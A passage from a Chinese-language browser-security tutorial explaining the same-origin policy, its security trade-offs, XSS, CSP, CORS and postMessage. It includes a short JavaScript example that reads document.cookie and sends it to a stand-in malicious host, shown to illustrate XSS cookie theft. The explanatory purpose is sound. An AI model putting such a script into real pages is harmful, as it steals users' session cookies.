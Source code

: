 


### 4.2 安全和便利性的权衡

- 不过安全性和便利性是相互对立的，让不同的源之间绝对隔离，无疑是最安全的措施，但这也会使得 Web 项目难以开发和使用。因此我们就要在这之间做出权衡，出让一些安全性来满足灵活性；而出让安全性又带来了很多安全问题，最典型的是 XSS 攻击和 CSRF 攻击

-  **页面中可以嵌入第三方资源**

  - Web 世界是开放的，可以接入任何资源，而同源策略要让一个页面的所有资源都来自于同一个源，也就是要将该页面的所有 HTML 文件、JavaScript 文件、CSS 文件、图片等资源都部署在同一台服务器上，这无疑违背了 Web 的初衷，也带来了诸多限制。**比如将不同的资源部署到不同的 CDN 上时，CDN 上的资源就部署在另外一个域名上，因此我们就需要同源策略对页面的引用资源开一个“口子”，让其任意引用外部文件**

    - 所以最初的浏览器都是支持外部引用资源文件的，不过这也带来了很多问题。之前在开发浏览器的时候，遇到最多的一个问题是浏览器的首页内容会被一些恶意程序劫持，劫持的途径很多，其中最常见的是恶意程序通过各种途径往 HTML 文件中插入恶意脚本

    - 比如，恶意程序在 HTML 文件内容中插入如下一段 JavaScript 代码

      ![img](https://blog.poetries.top/img/static/gitee/2019/11/92.png)

      当这段 HTML 文件的数据被送达浏览器时，浏览器是无法区分被插入的文件是恶意的还是正常的，这样恶意脚本就寄生在页面之中，当页面启动时，它可以修改用户的搜索结果、改变一些内容的连接指向，等等。

  - 除此之外，它还**能将页面的的敏感数据，如 Cookie、IndexDB、LoacalStorage 等数据通过 XSS 的手段发送给服务器**。具体来讲就是，**当你不小心点击了页面中的一个恶意链接时，恶意 JavaScript 代码可以读取页面数据并将其发送给服务器**，如下面这段伪代码：

    ```js
    function onClick(){
      let url = `http://malicious.com?cookie = ${document.cookie}`
      open(url)
    }
    onClick()
    ```

    在这段代码中，恶意脚本读取 Cookie 数据，并将其作为参数添加至恶意站点尾部，当打开该恶意页面时，恶意服务器就能接收到当前用户的 Cookie 信息。

  - 以上就是一个非常典型的 XSS 攻击。**为了解决 XSS 攻击，浏览器中引入了内容安全策略，称为 CSP**。

    - **CSP 的核心思想是让服务器决定浏览器能够加载哪些资源，让服务器决定浏览器是否能够执行内联 JavaScript 代码。**通过这些手段就可以大大减少 XSS 攻击

  

- **跨域资源共享和跨文档消息机制**

  - 默认情况下，如果打开极客邦的官网页面，在官网页面中通过 XMLHttpRequest 或者 Fetch 来请求 InfoQ 中的资源，这时同源策略会阻止其向 InfoQ 发出请求，这样会大大制约我们的生产力。
  - 为了解决这个问题，我们引入**了跨域资源共享（CORS），使用该机制可以进行跨域访问控制，从而使跨域数据传输得以安全进行。**
  - 在介绍同源策略时，我们说明了如果两个页面不是同源的，则无法相互操纵 DOM。不过**在实际应用中，经常需要两个不同源的 DOM 之间进行通信，于是浏览器中又引入了跨文档消息机制，可以通过 window.postMessage 的 JavaScript 接口来和不同源的 DOM 进行通信。**











## 五. 跨站脚本攻击XSS：为什么cookie中有httpOnly属性

### 5.1 什么是 XSS 攻击
